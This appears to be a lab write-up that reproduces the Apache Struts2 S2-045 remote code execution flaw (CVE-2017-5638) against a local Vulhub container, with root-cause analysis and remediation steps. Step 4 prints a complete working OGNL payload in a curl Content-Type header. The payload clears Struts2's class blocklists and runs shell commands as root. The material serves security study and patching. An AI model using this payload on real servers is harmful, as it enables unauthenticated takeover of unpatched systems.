





# Struts2 S2-045 Remote Code Execution (CVE-2017-5638)

## Overview

| | |
|---|---|
| **CVE** | CVE-2017-5638 |
| **Component** | Apache Struts2 — Jakarta Multipart parser |
| **Affected Versions** | Struts 2.3.5 – 2.3.31, Struts 2.5 – 2.5.10 |
| **Vulnerable Image** | `vulhub/struts2:2.3.30` |
| **Impact** | Unauthenticated Remote Code Execution (root) |
| **Vector** | Malicious `Content-Type` HTTP header |
| **CVSS** | 10.0 (Critical) |

Struts2's Jakarta-based Multipart parser evaluates the `Content-Type` header as an **OGNL expression** while handling a parsing exception — *before* it validates the header is a legitimate multipart type. This lets an unauthenticated attacker inject and execute arbitrary OGNL, including native OS commands, in a single HTTP request with no file upload and no callback infrastructure.

---

## Attack Chain Summary

```
Attacker                          Struts2 / Jetty (victim)
   |                                      |
   |--- POST / with malicious ---------->|
   |    Content-Type header               |
   |                                      |--- Jakarta Multipart parser evaluates
   |                                      |     Content-Type as OGNL BEFORE validating
   |                                      |     it's a real multipart type
   |                                      |
   |                                      |--- OGNL clears security restrictions
   |                                      |     (getExcludedPackageNames/-Classes)
   |                                      |
   |                                      |--- ProcessBuilder executes shell command
   |                                      |
   |<-- command output streamed back ----|     (piped into HTTP response body)
   |     in HTTP response                 |     => runs as root inside container
```

---

## Lab Environment

```bash
cd vulhub
docker compose up -d
```

`docker-compose.yml`:
```yaml
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.3.30
   ports:
    - "8080:8080"
```

---

## Step 1 — Target Recon

Confirmed the container was up and identified the vulnerable image version.

```bash
docker ps -a --filter name=vulhub-struts2-1
curl -s http://localhost:8080/ -o /dev/null -w "HTTP Status: %{http_code}\n"
```



**What this shows:** the target container `vulhub-struts2-1` running image `vulhub/struts2:2.3.30` (within the affected version range), and a `200 OK` confirming the app is reachable on port 8080 before any exploitation begins.

---

## Step 2 — Vulnerability Reference

Reviewed Vulhub's documentation for the exact root cause and official PoC request structure.

```bash
cat README.md
```



**What this shows:** the vendor-documented root cause (OGNL evaluation of the `Content-Type` header) and the reference PoC payload used as the basis for this exploitation, confirming this is a known, previously-documented vulnerability rather than a novel finding.

---

## Step 3 — Injection Point Confirmation

Sent a benign OGNL arithmetic expression through the `Content-Type` header to confirm the parser evaluates attacker-controlled input, without touching the OS yet.

```bash
curl -s -i http://localhost:8080/ \
  -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data" \
  | grep -i vulhub
```



**What this shows:** a response header `vulhub: 54289` — the result of `233*233` evaluated server-side. This proves OGNL expressions embedded in the `Content-Type` header are executed by the server, confirming the injection point is live before attempting command execution.

---

## Step 4 — Exploitation (Command Execution)

Escalated the confirmed injection point into full OS command execution. The payload:

1. Retrieves the OGNL `OgnlContext` and clears Struts2's security blocklists (`getExcludedPackageNames()`, `getExcludedClasses()`) that normally prevent dangerous class access.
2. Constructs a `ProcessBuilder` to execute an arbitrary shell command (`id`).
3. Pipes the process's `stdout` directly into the raw HTTP response `OutputStream`.

```bash
curl -s -i http://localhost:8080/ \
  -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" \
  --data ""
```



**What this shows:** the HTTP response body contains `uid=0(root) gid=0(root) groups=0(root)` — the output of the `id` command executed *on the server*, returned inside an otherwise ordinary HTTP response. This is the core proof of Remote Code Execution: a single unauthenticated request with a malicious header caused the server to run an arbitrary OS command as root.

---

## Step 5 — Independent Verification

Verified the command execution from outside the exploit path, to rule out a spoofed or cached HTTP response.

```bash
docker exec vulhub-struts2-1 id
```



**What this shows:** running `id` directly inside the container (via `docker exec`, bypassing the exploit entirely) returns the identical result — `uid=0(root) gid=0(root) groups=0(root)`. Since both the exploit response and the independent container check agree, this confirms genuine code execution rather than a fabricated or reflected response.

---

## Root Cause

The Jakarta-based Multipart parser (`org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest`) throws a parsing exception when it encounters a malformed `Content-Type`. Struts2's exception-handling logic then builds a user-facing error message by evaluating parts of the request — including the raw `Content-Type` value — as an OGNL expression, without sanitization. Because OGNL can invoke arbitrary static Java methods when the interpreter's security restrictions are cleared, this becomes full command execution.

## Why This Vulnerability Is Notable

Unlike JNDI-based chains (Log4Shell, Fastjson), S2-045 requires **no callback infrastructure** — no rogue LDAP/RMI server, no outbound connection from the victim. The entire attack is a single synchronous HTTP request/response, which makes it both simpler to execute and harder to detect via network-based egress monitoring.

## Remediation

- Upgrade to Struts 2.3.32 / 2.5.10.1 or later.
- Apply a WAF rule to reject requests with non-standard `Content-Type` headers on multipart endpoints.
- Run application containers as a non-root user to limit blast radius if RCE does occur.

## Cleanup

```bash
docker compose down
```

---

## References

- [Apache Struts2 S2-045 Advisory](http://struts.apache.org/docs/s2-045.html)
- [NSFOCUS Technical Writeup](https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/)
- [Vulhub CVE-2017-5638](https://github.com/vulhub/vulhub/tree/master/struts2/s2-045)
